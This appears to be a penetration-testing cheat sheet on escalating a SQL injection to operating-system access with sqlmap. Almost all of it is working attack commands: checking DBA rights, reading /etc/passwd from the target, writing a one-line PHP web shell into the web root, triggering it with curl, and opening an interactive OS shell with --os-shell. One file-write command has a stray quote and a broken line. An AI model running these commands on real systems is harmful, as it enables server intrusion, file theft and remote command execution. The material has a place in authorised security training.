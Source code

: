 # OS Exploitation
-----

### Checking for DBA Privileges
- Before performing any exploitation, we need to check if the current user has admin rights.

```bash
sqlmap -u "https://example.com/?id=1" --is-dba
```

- The current user must have DBA rights in order to perform the exploit.

### Reading Local Files

```bash
sqlmap -u "https://example.com?id=1" --file-read "/etc/passwd"
```

### Writing Local Files
- Preparing the payload

```bash
echo "<?php system($_GET['cmd']); ?>" > shell.php
```
 
- Write the file to the remote server

```bash
sqlmap -u "https://example.com?id=1" --file-write "shell.php" --file-dest 
/var/www/html/shell.php"
```

--file-write: write file to the target system
--file-dest: destination of the file on the target system

- Attempt to access the shell
```bash
curl https://example.com/shell.php?cmd=id
```

### OS Command Execution
- Since we have confirm the current user has write permission, we can use sqlmap to check if it can give us an OS shell

```bash
sqlmap -u "https://example.com?id=1" --os-shell
```

- The above command is defaulted to `UNION` technique, which sometimes does not work. We can try other techniques using `--technique` flag

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

Here we see Error-based technique is used.